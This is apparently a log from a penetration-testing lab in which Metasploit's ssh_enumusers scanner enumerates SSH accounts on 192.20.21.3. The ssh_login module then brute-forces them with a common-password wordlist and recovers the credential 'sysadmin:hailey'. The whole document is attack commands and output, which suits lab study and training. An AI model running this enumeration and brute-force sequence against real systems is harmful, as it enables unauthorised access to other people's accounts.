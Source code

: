 ```
[+] 192.20.21.3:22 - SSH - User 'demo' found
[+] 192.20.21.3:22 - SSH - User 'auditor' found
[+] 192.20.21.3:22 - SSH - User 'anon' found
[+] 192.20.21.3:22 - SSH - User 'administrator' found
[+] 192.20.21.3:22 - SSH - User 'diag' found
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

```
msf5 auxiliary(scanner/ssh/ssh_enumusers) > pwd
[*] exec: pwd

/root
msf5 auxiliary(scanner/ssh/ssh_enumusers) > vim users.txt
[*] exec: vim users.txt

sysadmin
rooty
demo
auditor
anon
administrator
diag
```

```
msf5 auxiliary(scanner/ssh/ssh_enumusers) > use auxiliary/scanner/ssh/ssh_login
msf5 auxiliary(scanner/ssh/ssh_login) > show options

Module options (auxiliary/scanner/ssh/ssh_login):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BLANK_PASSWORDS   false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false            no        Add all passwords in the current database to the list
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   PASSWORD                           no        A specific password to authenticate with
   PASS_FILE                          no        File containing passwords, one per line
   RHOSTS            192.20.21.3      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT             22               yes       The target port
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
   THREADS           1                yes       The number of concurrent threads (max one per host)
   USERNAME                           no        A specific username to authenticate as
   USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false            no        Try the username as the password for all users
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           false            yes       Whether to print output for all attempts

msf5 auxiliary(scanner/ssh/ssh_login) > set USER_FILE /root/users.txt
USER_FILE => /root/users.txt
msf5 auxiliary(scanner/ssh/ssh_login) > set PASS_FILE /usr/share/metasploit-framework/data/wordlists/common_passwords.txt
PASS_FILE => /usr/share/metasploit-framework/data/wordlists/common_passwords.txt
msf5 auxiliary(scanner/ssh/ssh_login) > run

[+] 192.20.21.3:22 - Success: 'sysadmin:hailey' ''
```